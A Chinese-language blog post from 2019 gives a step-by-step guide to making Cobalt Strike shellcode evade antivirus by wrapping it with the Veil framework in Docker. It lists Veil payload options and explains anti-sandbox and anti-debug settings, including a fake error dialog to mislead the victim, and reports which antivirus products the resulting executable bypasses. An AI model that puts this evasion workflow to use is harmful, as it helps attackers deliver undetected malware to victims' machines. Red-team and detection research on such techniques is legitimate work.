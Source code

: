 ﻿---
layout: post
title: 免杀：结合veillCS shellcode免杀
date: 2019-10-06
categories: blog
tags: [免杀，shellcode]
description: 结合veillCS shellcode免杀
---

#### 一、CS生成shellcode
攻击-生成后门-payload generator-选veil
![](https://upload-images.jianshu.io/upload_images/15634342-b3f4963cc1ffcf03.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

#### 二、安装veil
- 安装`docker pull mattiasohlsson/veil`
- 启动`docker run -it -v /tmp/veil-output:/var/lib/veil/output:Z mattiasohlsson/veil`
- 生成的exe文件在/tmp/veil-output，之后在这取

#### 三、veil免杀
```
[*] Available Tools:
    1)  Evasion
    2)  Ordnance
use 1

[*] Available Payloads:

    1)  autoit/shellcode_inject/flat.py

    2)  auxiliary/coldwar_wrapper.py
    3)  auxiliary/macro_converter.py
    4)  auxiliary/pyinstaller_wrapper.py

    5)  c/meterpreter/rev_http.py
    6)  c/meterpreter/rev_http_service.py
    7)  c/meterpreter/rev_tcp.py
    8)  c/meterpreter/rev_tcp_service.py

    9)  cs/meterpreter/rev_http.py
    10) cs/meterpreter/rev_https.py
    11) cs/meterpreter/rev_tcp.py
    12) cs/shellcode_inject/base64.py
    13) cs/shellcode_inject/virtual.py

    14) go/meterpreter/rev_http.py
    15) go/meterpreter/rev_https.py
    16) go/meterpreter/rev_tcp.py
    17) go/shellcode_inject/virtual.py

    18) lua/shellcode_inject/flat.py

    19) perl/shellcode_inject/flat.py

use 17
```

```
BADMACS 设置为Y表示 查看运行环境的MAC地址如果不是虚拟机才会执行payload （反调试）
CLICKTRACK 设置为4表示 表示需要4次点击才会执行
CURSORCHECK 设置为100表示 运行环境的硬盘大小如果大于100GB才会执行payload （反沙箱）
COMPILE_TO_EXE 设置为Y表示 编译为exe文件
HOSTNAME 设置为Comp1表示 只有在Hostname计算机名为Comp1时才会执行payload（指定目标环境 反沙箱的方式）
INJECT_METHOD 可设置为Virtual 或 Heap
MINPROCS 设置为20表示 只有运行环境的运行进程数大于20时才会执行payload（指定目标环境 反沙箱的方式）
PROCCHECK 设置为Y表示 只有运行环境的进程中没有虚拟机进程时才会执行payload（指定目标环境 反沙箱的方式）
PROCESSORS 设置为2表示 只在至少2核的机器中才会执行payload（指定目标环境 反沙箱的方式）
RAMCHECK 设置为Y表示 只在运行环境的内存为3G以上时才会执行payload（指定目标环境 反沙箱的方式）
SLEEP 设置为10表示 休眠10秒 以检测是否运行过程中被加速（反沙箱）
USERNAME 设置为Tom表示 只有在当前用户名为Tom的机器中才执行payload。
USERPROMPT 设置为Y表示 在injection之前提醒用户（提示一个错误框，让用户误以为该程序执行错误才无法打开）
DEBUGGER 设置为Y表示 当被调试器不被attached时才会执行payload （反调试）
DOMAIN 设置为Comp表示 受害者计算机只有加入Comp域中时，才会执行payload（指定目标环境 反沙箱的方式）
UTCCHECK 设置为Y表示 只在运行环境的系统使用UTC时间时，才会执行payload
```
- set 都是可选的，都为了绕过，不选也行

- `generate`(生成)

- 复制CS生成的payload.txt内容，到这个位置
![](https://upload-images.jianshu.io/upload_images/15634342-8d4ac6f9c786149a.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

- 输入文件名

- 去这找生成的exe文件，/tmp/veil-output
#### 四、结论
win7：随便过
win10：此种免杀可以过360、火绒、qq管家等杀软，但是过不了windwos defender？？，然而安装了360、火绒、qq管家等杀软会把win10的defender挤掉，所以也能过？？
10月6日复测，最新的数字卫士已经能检测出来了
















